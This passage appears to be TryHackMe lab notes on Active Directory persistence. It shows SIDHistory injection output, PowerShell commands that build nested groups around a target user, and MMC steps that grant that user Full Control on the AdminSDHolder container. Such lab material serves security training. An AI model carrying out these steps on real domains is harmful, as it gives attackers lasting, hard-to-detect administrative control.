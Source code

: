 ```
PS C:\Users\Administrator\persist> Get-ADUser 'Aaron.jones' -properties sidhistory,memberof                                                                                                                                                               DistinguishedName : CN=aaron.jones,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc                                                                                                                                                                      Enabled           : True                                                                                                                                                                                                                                  GivenName         : Aaron                                                                                                                                                                                                                                 MemberOf          : {CN=Am0 Net Group 1,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc, CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}                                                                                                                Name              : aaron.jones                                                                                                                                                                                                                           ObjectClass       : user                                                                                                                                                                                                                                  ObjectGUID        : 7d4c08e5-05b6-45c4-920d-2a6dbba4ca22                                                                                                                                                                                                  SamAccountName    : aaron.jones                                                                                                                                                                                                                           SID               : S-1-5-21-3885271727-2693558621-2658995185-1429                                                                                                                                                                                        SIDHistory        : {S-1-5-21-3885271727-2693558621-2658995185-512}                                                                                                                                                                                       Surname           : Jones                                                                                                                                                                                                                                 UserPrincipalName :        
```


#### Group membership
For persistence through group membership, 
```
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "Net Group 1" -SamAccountName "nestgroup1" -DisplayName "Nest Group 1" -GroupScope Global -GroupCategory Security
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "Net Group 2" -SamAccountName "nestgroup2" -DisplayName "Nest Group 2" -GroupScope Global -GroupCategory Security 
Add-ADGroupMember -Identity "nestgroup2" -Members "nestgroup1"
Add-ADGroupMember -Identity "nestgroup1" -Members "TARGET_USERNAME"
```
#### Persistence through Access Control List (ACL)
Adding a user to every protected group can be easily detected and countered. So instead, use persistence through AD Group Templates.
One such template is the AdminSDHolder container. This container exists in every AD domain, and its Access Control List (ACL) is used as a template to copy permissions to all protected groups. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins. If you are looking for the full list of groups, you can find them [here](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)).
##### Persisting using `AdminSDHolder`
First, boot up the `mmc` (`windows-R` and enter `mmc`).
```
File --> Add Snap-In --> Active Directory Users and Computers
View --> enable "Advanded Features"
Active Directory users and Computers --> Target AD --> System --> AdminSDHolder
Right-click --> Properties --> Security
Then, add the target user:
Add --> Search for target username --> Check names --> OK --> Click "Allow" on Full Control --> Apply --> OK
```
